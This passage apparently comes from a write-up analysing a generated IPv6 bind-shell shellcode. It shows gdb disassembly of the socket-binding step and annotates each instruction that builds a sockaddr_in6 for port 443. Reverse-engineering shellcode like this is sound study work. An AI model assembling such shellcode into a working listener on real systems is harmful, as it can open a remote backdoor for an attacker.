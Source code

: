 <figcaption class="figure-caption">C code for creating a TCP socket</figcaption>

## Socket Binding

Right after the creation of the TCP socket, there some instructions that deal with the binding operation:

```nasm
(gdb) x/15i $pc
=> 0x400085:    push   rax
   0x400086:    pop    rdi
   0x400087:    cdq    
   0x400088:    push   rdx
   0x400089:    push   rdx
   0x40008a:    push   rdx
   0x40008b:    pushw  0xbb01
   0x40008f:    pushw  0xa
   0x400093:    push   rsp
   0x400094:    pop    rsi
   0x400095:    push   0x31
   0x400097:    pop    rax
   0x400098:    push   0x1c
   0x40009a:    pop    rdx
   0x40009b:    syscall 
```

What's peculiar about these instructions is that since the shellcode I generated is based on the **IPv6** protocol, it doesn't employ the usual **sockaddr** structure:

```nasm
; save the file descriptor of the socket into RDI
push   rax
pop    rdi

; sign extend RAX into RDX (zeroing it) 
cdq

; push 24 NULL bytes 
push   rdx
push   rdx
push   rdx

; member sin6_port of the sockaddr_in6 struct
; in this case: port 443 in bid-endian notation
pushw  0xbb01

; member sin6_family of the sockaddr_in6 struct
; in this case: AF_INET6
pushw  0xa

; 2nd argument of bind: pointer to sockaddr_in6 struct
push   rsp
pop    rsi

; using the syscall 0x31 i.e., bind
push   0x31
pop    rax

; 3rd argument of bind: size of the sockaddr_in6 struct
; size in this case: 28 bytes
push   0x1c
pop    rdx

; calling the syscall bind()
syscall 
```